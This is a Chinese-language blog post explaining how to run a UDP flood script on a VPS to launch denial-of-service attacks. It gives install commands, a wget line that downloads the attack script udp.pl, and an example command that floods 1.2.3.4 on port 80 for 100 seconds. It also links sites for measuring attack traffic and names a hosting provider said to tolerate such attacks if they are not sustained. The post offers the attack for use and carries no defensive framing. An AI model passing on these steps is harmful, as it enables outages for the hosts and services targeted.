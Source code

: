 # [ALP本机发包脚本使用方法说明](https://www.beggar.tk/9.html)

> 作者: [Laowang](https://www.beggar.tk/author/1/)
>    
> 时间: 2019-10-12
>    
> 分类: [默认分类](https://www.beggar.tk/category/default/)

本机发包脚本使用方法说明.

登陆VPS，执行命令

CentOS:

```bash
yum update -y
yum install wget perl dstat -y
wget https://raw.githubusercontent.com/whunt1/ALP_Script/master/udp.pl
```

Debian & Ubuntu:

```bash
apt-get update -y
apt-get install wget perl dstat -y
wget https://raw.githubusercontent.com/whunt1/ALP_Script/master/udp.pl
```

执行命令：`perl udp.pl IP port thread time(s).`

如要攻击1.2.3.4，80端口攻击100秒

`perl udp.pl 1.2.3.4 80 200 100`

这里的200是线程，根据VPS网络性能自己决定.

监控网络状况可以输入 `dstat` 查看.

要查看打出多少流量，可以访问下面几个测量的墙.

[vedbex]( https://www.vedbex.com/tools/dstat )

[ddosfilter]( http://ddosfilter.net/layer4.php )

[cyber-hub](https://cyber-hub.net/layer4.php)

[toolsmania](https://www.toolsmania.net/dstat_layer4.php)

[dstat.live](https://dstat.live/)

什么？不知道用那里的机器发包？

scaleway online旗下的 只要你别一直打 基本没事.

[scaleway官网](https://www.scaleway.com/)

标签: none
